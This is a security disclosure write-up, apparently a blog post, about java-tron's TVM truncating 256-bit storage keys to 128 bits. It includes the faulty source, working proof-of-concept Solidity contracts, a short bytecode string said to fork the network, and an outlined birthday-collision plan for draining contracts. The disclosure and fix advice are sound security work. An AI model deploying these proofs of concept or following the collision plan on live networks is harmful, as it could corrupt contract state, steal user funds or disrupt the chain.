

Critical TVM storage key truncation to 128 bits leading to arbitrary slot overwrites, birthday attacks, and potential network fork.

## Executive summary

The execution layer of TRON Virtual Machine (TVM) incorrectly mangles the location of contract storage slots. Specifically, storage keys that differ only in their upper 128 bits will collide and overwrite each other. Also, storage from one smart contract can overwrite storage from another contract if the addresses are similar enough. This is a fundamental error in the official java-tron implementation where it fails to implement the specification advertised on the official TVM documentation, and it breaks advertised compatibility with Ethereum Virtual Machine (EVM).

The impact is severe: Attacker-controlled contract deployment + birthday collision is now feasible in 2^64 operations instead of the 2^128 operations advertised. This order of birthday collisions are already demonstrated in the wild and are likely to be deployed on TRON someday even unintentionally. Stealing tokens from any contract on TRON is possible with 2^128 hash difficulty instead of the advertised 2^256. If multiple diverse clients are running on the network, it is possible to cause a network fork.

## Technical background

Ethereum Virtual Machine treats every contract’s storage as a map of **2^256 independent 256-bit keys**. Each slot is completely isolated. And the [TRON Virtual Machine specification](https://developers.tron.network/docs/opcodes) also provides this same guarantee:

> TVM opcodes are the same as EVM except for TRON-specific opcodes.
>
> `SSTORE`: `storage[key] := val`
>
> `SLOAD`: `val := storage[key]`

However, the TRON Virtual Machine implementation (java-tron) [does something very different](https://github.com/tronprotocol/java-tron/blob/7e5bbbd21e26f2fb0c60de0e5f88be9dc5e807db/actuator/src/main/java/org/tron/core/vm/program/Storage.java#L46-L54):

```java
private static final int PREFIX_BYTES = 16;
private byte[] compose(byte[] key, byte[] addrHash) {
  if (contractVersion == 1) {
    key = Hash.sha3(key);
  }
  byte[] result = new byte[key.length];
  arraycopy(addrHash, 0, result, 0, PREFIX_BYTES);
  arraycopy(key, PREFIX_BYTES, result, PREFIX_BYTES, PREFIX_BYTES);
  return result;
}
```

Here is the bit layout:



This means that TVM reuses storage slots across all contracts with similar addresses. And it shares storage slots where keys are similar.

## Activation method (how to trigger it)

1. Deploy any contract on Tron (mainnet or Nile testnet).
2. Write to storage slot `0`.
3. Write to storage slot `2^128`.
4. Read back slot `0` — it now contains the value from slot `2^128`.

This works in **one transaction** and requires no special permissions.

### Proof of concept (PoC)

Here is a minimal Solidity contract that demonstrates the collision:

> [!CAUTION]
>
> Do not deploy this contract to mainnet!
>
> If multiple diverse clients are running on the network, deploying this contract will cause a network fork.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.0 <0.9.0;

contract Storage {
    uint256[2**128+1] numbers;

    constructor() {
        numbers[0] = 3;
        numbers[2**128] = 4;
    }

    function getNumber() external view returns(uint256) {
        return numbers[0];
    }
}
```

Here is another implementation using inline assembly:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.0 <0.9.0;

contract StorageCollisionPoC {
    constructor() {
        // Write to slot 1 (low key)
        assembly {
            sstore(1, 0x0000000000000000000000000000000000000000000000000000000000000003)  // value = 3
        }

        // Write to slot 2^128 + 1 (high key that collides if upper 128 bits are truncated)
        assembly {
            let highKey := add(0x0000000000000000000000000000000100000000000000000000000000000000, 1)
            sstore(highKey, 0x0000000000000000000000000000000000000000000000000000000000000004)  // value = 4
        }
    }

    // Helper view function to read any slot (for testing)
    function readSlot(uint256 slot) public view returns (uint256) {
        uint256 val;
        assembly {
            val := sload(slot)
        }
        return val;
    }

    // Confirm collision: will return 2 on java-tron, but 1 on a correct implementation
    function getNumber() external view returns (uint256) {
        return readSlot(1);
    }
}
```

Here is another implementation of forking using 9 bytes of contract deployment bytecode.

```evm
305f55303060801b55
```

**On a correct EVM (Ethereum, Polygon, BSC, etc.):**  

- `getNumber()` returns `3`

**On TRON Virtual Machine:**

- `getNumber()` returns `4` — because keys `0` and `2^128` collide when the upper 128 bits are discarded

Note that in TronIDE you will see the correct value. This is because TronIDE uses a different storage implementation for testing that does not have the same bug. The bug only exists in the actual TVM execution environment on the blockchain.

You can deploy this on Nile testnet today (do not deploy to mainnet, see note above) and verify with a block explorer (TronScan). See a similar contract [that is already deployed](https://tronscan.org/#/transaction/e9ccd262eab30f5ae07f27ec9545a59dd092ec2ac27df25faefd313caf2e5c8f). And you can query it using the key `1` and the key `340282366920938463463374607431768211457` (2^128 + 1). Compare that to the previous transaction that set that storage value.

### Forking proof of concept

In TRON Virtual Machine, unlike Ethereum, the storage root is not included in the `accountStateRoot` of the block header. And therefore the example above will not cause a concensus failure by way of the state root being different for two different nodes.

However, if you look closer, notice how the first storage change is at one address and the second storage change is at a different address. Well, according to [the TRON energy specification](https://developers.tron.network/docs/opcodes), a proper consensus client would bill this energy usage twice at full rate. But the current java-tron implementation only charges the first storage change at the full rate, and the second storage change at a much lower rate (because it thinks it is overwriting an existing slot instead of writing to a new slot).

> energy_cost = (oldValue == null && val != 0) ? 20000 : (oldValue != null && value == 0) ? 5000 : 5000

This means that if java-tron is running today on mainnet and a different client is also running on mainnet that is properly implemented, then the same transaction will be accepted by both clients but will have different energy costs. This results in a fork of the network!

Be very careful before attempting to deploy the above contract because it might break the entire TRON network!

## Root cause (exact source)

The bug lives in the official java-tron reference client:

**File:** `actuator/src/main/java/org/tron/core/vm/program/Storage.java`

```java
private static final int PREFIX_BYTES = 16;  // = 128 bits

private byte[] compose(byte[] key, byte[] addrHash) {
    if (contractVersion == 1) {
        key = Hash.sha3(key);
    }
    byte[] result = new byte[key.length];
    arraycopy(addrHash, 0, result, 0, PREFIX_BYTES); // ← ONLY 128 bits
    arraycopy(key, PREFIX_BYTES, result, PREFIX_BYTES, PREFIX_BYTES);  // ← ONLY lower 128 bits!
    return result;
}
```

- Every 256-bit storage key (`DataWord`) has its **upper 128 bits discarded**.
- Only the lower 128 bits + a 16-byte address prefix become the actual database key (LevelDB/RocksDB).
- A singleton storage instance is shared across all contracts, and only part of the address is used.
- Cross-contract collisions are possible.

## Full impact analysis

**Severity:** Critical

### 1. Birthday attack on hashed slots

Most contracts use `keccak256` for mappings and dynamic arrays:

- Expected entropy: 2^256 (full key uniqueness).
- With java-tron: only the lower 128 bits of the key are effectively used after truncation → effective entropy drops to 2^128 per contract.
- A birthday-paradox collision search now becomes feasible in ≈ 2^64 operations (feasible today with modern GPU clusters or dedicated hardware in weeks to months for a motivated attacker).

An attacker can:

- Attacker-controlled deployment: An attacker deploys their own high-value contract (e.g., SunSwap pool, USDT-TRC20 bridge, token) using `CREATE2` to control/predict the address and initial storage layout. They can then:
  - Compute colliding key pairs offline (via birthday attack on the lower 128 bits).
  - Later deploy a second malicious contract to the colliding "prefix space."
  - Use the collision to overwrite critical state in their "first" contract (e.g., set `balanceOf(attacker) = totalSupply`, change owner, drain funds).
- Steal from an arbitrary existing high-value contract: Requires finding a colliding key for a specific existing storage slot (preimage attack) → still 2^128 difficulty (infeasible today). This is much easier than the advertised 2^256 difficulty.

If somebody else also knows this vulnerability, they may have already done the first step above and be prepared to deploy the second contract anytime and drain all the funds from an existing high-value contract.

### 2. Direct overwrite of fixed slots

Any contract using low-numbered slots (common in proxies, upgradeable contracts, or assembly code) can have those slots silently overwritten by anyone who knows the colliding high key.

### 3. Underhanded contract behavior

An attacker can deploy a malicious contract that appears to be permissionless, but actually they maintain administrative control, by using storage collisions to overwrite critical state.

This is simple, and anybody reviewing the contract source code and expecting java-tron to work as advertised would not predict the actual program behavior.

### 4. Unintentional cross-contract collisions

Even unintentional collisions pose a real risk when contracts share similar address prefixes (first 128 bits / 16 bytes) or when using low/predictable keys. For example, the OpenSea Seaport project uses deployment addresses with many leading zero bits ([57 bits now](https://github.com/ProjectOpenSea/seaport?tab=readme-ov-file#deployments-by-evm-chain), increasing with new versions). If Seaport (the dominant NFT marketplace protocol) deploys on Tron and reaches ~16 leading zero bytes in an address, all versions/deployments sharing that 128-bit prefix would have fully colliding storage spaces. Any write to one contract's storage would silently corrupt or overwrite state in the others — breaking approvals, listings, or escrow logic across versions without any intentional exploit.

### 5. Chain fork

If there are multiple clients running on the network, then the same transaction will be accepted by all clients but will have different energy costs. This will cause a fork of the network between clients that implement the correct storage model and the java-tron clients that implement the incorrect storage model.

## CVE-style impact statement

Allows an attacker to cause storage collisions across all contracts on the TRON network, enabling theft of tokens, manipulation of contract state, and potential network forks. The vulnerability arises from a fundamental flaw in the java-tron TVM implementation where 256-bit storage keys are truncated to 128 bits, resulting in predictable collisions. This can be exploited with a single transaction and requires no special permissions, making it a critical risk for all users and developers on the TRON platform.

**CVSS 3.1 Score (estimated):** 9.8 (Critical) - AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Recommended resolution

Tron should immediately:

1. Change `compose()` to use the full 256 bits of the key and the full address hash to compute the storage key, as per the original specification. A practical solution is to use `keccak256(addrHash || key)` as the storage key since it will have sensitivity to all bits and it fits in the same width that is used today.
2. Add a new contract version flag and enforce full 256-bit keys going forward while maintaining backward compatibility for existing contracts.
3. Redeploy and migrate any high value contracts to the new version.
4. Update TVM documentation to stop claiming full EVM compatibility until fixed.
5. Review all high-value contracts on Tron for evidence of collision attempts. (i.e. attacker-controlled contract deployment + birthday collision)

A fix in `compose()` plus a hard fork would resolve it.

### Timeline & disclosure

- 2022-11-12 Discovery
- 2026-03-18 Private report to TRON DAO via HackerOne
- 2026-03-24 TRON responded on HackerOne: "Thank you for your report and contribution to our security program. Following a thorough evaluation, we found this report is duplicate. This report will now be closed." They did not ask me to maintain confidentiality and closed the issue.
- 2026-03-24 Public disclosure on blog.phor.net
